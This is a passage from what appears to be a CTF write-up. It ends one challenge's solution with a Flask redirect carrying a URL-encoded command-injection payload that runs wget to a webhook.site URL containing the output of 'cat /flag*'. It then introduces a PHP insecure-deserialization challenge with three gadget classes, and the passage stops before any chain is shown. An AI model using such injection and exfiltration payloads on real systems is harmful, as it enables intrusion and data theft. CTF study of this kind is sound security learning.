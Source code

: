 ```python
    return redirect("http://backend:5000/health_check?cmd=%22%29%27%3Bwget%20https%3A%2F%2Fwebhook.site%2F8e85705e-3468-4e1f-90b5-745c2a70b808%3Fq%3D%24%28cat%20%2Fflag%2A%29%20%3Becho%20%271%27%3B%23%20")

if __name__ == '__main__':
    app.run(debug=True)  # This runs the app locally
```
Host this app up and we will receive the flag at our webhook !!
![image](https://hackmd.io/_uploads/r15E767LJl.png)

![image](https://hackmd.io/_uploads/HkrE76Q8ke.png)
Im sorry for not showing the real flag because I dont know why i cannot access it anymore :<.

# My Restaurant 
Insecure Deserialization
## Overview
```php
class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;

    public function __get($tomato)
    {
        ($this->sauce)();
    }
}
```
```php
class Pizza
{
	public $price;
	public $cheese;
	public $size;

	public function __destruct()
	{
		echo $this->size->what;
    }    
}    
```
```php

<?php
	class IceCream
	{
		public $flavors;
		public $topping;

		public function __invoke()
		{
			foreach ($this->flavors as $flavor) {
				echo $flavor;
			}
		}
	}
```
This challenge gives us 3 class and this is 100% a PHP deserialization challenge !! So we need to find some ways to chain these vulnerabilities.
I rearranged for easier explanation.
